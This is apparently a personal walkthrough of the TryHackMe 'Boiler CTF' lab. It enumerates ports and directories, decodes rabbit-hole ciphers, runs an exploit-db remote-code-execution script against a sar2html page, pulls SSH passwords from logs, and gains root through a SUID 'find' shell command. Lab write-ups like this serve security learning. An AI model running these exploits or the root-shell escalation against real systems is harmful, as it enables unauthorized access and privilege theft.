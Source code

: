 ```yaml
---

title: Boiler CTF   
published: true
category: Lessons
system: Webmin
walkthrough-type: thm
source: https://tryhackme.com/room/boilerctf2
Description: Intermediate level CTF
tags: CTF, FTP, SSH, Webmin
---
```


* * * 

# Notes

```
nmap scan

PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 61
80/tcp    open  http             syn-ack ttl 61
10000/tcp open  snet-sensor-mgmt syn-ack ttl 61
55007/tcp open  unknown          syn-ack ttl 61


=============================

gobuster scan

robots.txt

User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

the ASCII goes to base which goes to a MD5? 99b0660cd95adea327c54182baa51584

which is the answer to the rabbit hole question...99b0660cd95adea327c54182baa51584:kidding   

the nmap scan top port result seems to be openSSH 55007/tcp open  unknown          syn-ack ttl 61

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ telnet 10.10.100.87 55007                    
Trying 10.10.100.87...
Connected to 10.10.100.87.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```



# File extension after anon login

We can login to FTP anonymously, and get a note.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ cat .info.txt          
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

ROT13 Cipher

# What is on the highest port?

ssh we found earliar

# What's running on port 10000?

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ nmap -sC -sV -Pn 10.10.189.181 -p10000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-15 15:30 PST
Nmap scan report for 10.10.189.181
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-server-header: MiniServ/1.930
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

# Can you exploit the service running on that port? (yay/nay answer)

exploitdb doesn't seem to contain anything.

# What's CMS can you access? Keep enumerating, you'll know when you find it.

joomla

# The interesting file name in the folder?

during gobuster scan i found a folder `http://boiler-ctf.thm/joomla/_files/` inside is another cipher `VjJodmNITnBaU0JrWVdsemVRbz0K`. Which is twice base64 decoded to `whoopsie daisy`. another rabbit hole.

we do find a folder after adjusting the wordlist http://boiler-ctf.thm/joomla/_test which has a RCE in exploitdb.

executing the script

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Boiler-CTF]
└─$ python3 49344.py   
Enter The url => http://boiler-ctf.thm/joomla/_test/           
Command => ls
HPUX
Linux
SunOS
index.php
log.txt
sar2html
sarFILE

Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

# Where was the other users pass stored(no extension, just the name)?

after logging into the ssh on the top port checking the backup.sh

```
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "## ## ## ## ## ## ## ## ## ## " >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

# user.txt



# What did you exploit to get the privileged user?

`find / -perm -u=s 2>/dev/null`

find has SUID set which means it doesnt drop elevated priviliges. We can use it to execure commands and spawn a root shell. `find . -exec /bin/sh -p \; -quit`

# root.txt

cat root.txt


also the user.txt is not user.txt its .secret...